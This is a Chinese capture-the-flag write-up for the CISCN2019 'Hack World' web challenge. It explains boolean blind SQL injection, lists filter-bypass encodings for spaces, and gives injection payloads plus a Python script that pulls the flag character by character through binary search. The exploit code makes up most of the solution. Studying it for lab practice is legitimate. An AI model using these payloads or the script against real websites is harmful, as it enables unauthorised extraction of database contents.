 # [CISCN2019 华北赛区 Day2 Web1]Hack World

## 知识点

`sql注入`

`bool盲注`

`二分法`

## 解题

根据1和2返回结果的不同，可能是bool盲注，`()`没有过滤，可以使用大部分函数，当时是卡在了空格的绕过
空格的绕过有这些方法我测试是可以的
`%09` `%0a` `%0b` `%0c` `%0d` `/**/` `/*!*/`或者直接tab
`%20` 好像没法绕，`%00`截断好像也影响sql语句的执行
或者用括号也可以。任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。
本题中可以`if(ascii(substr((select(flag)from(flag)),1,1))=ascii('f'),1,2)`

```
id=0^(ascii(substr((select(flag)from(flag)),1,1))>101)
```

`exp.py`

```python
import requests

url = 'http://5cc23316-a978-42e6-ac81-c850336c7bfc.node4.buuoj.cn:81/index.php'
result = ''

for x in range(1, 50):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id":payload
        }
        response = requests.post(url, data = data)
        response.encoding = response.apparent_encoding
        if 'Hello' in response.text:  # 正常回显特征
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result)
```

[参考文章1](https://www.cnblogs.com/20175211lyz/p/11435298.html)

[参考文章2](https://www.cnblogs.com/zzjdbk/p/13650826.html)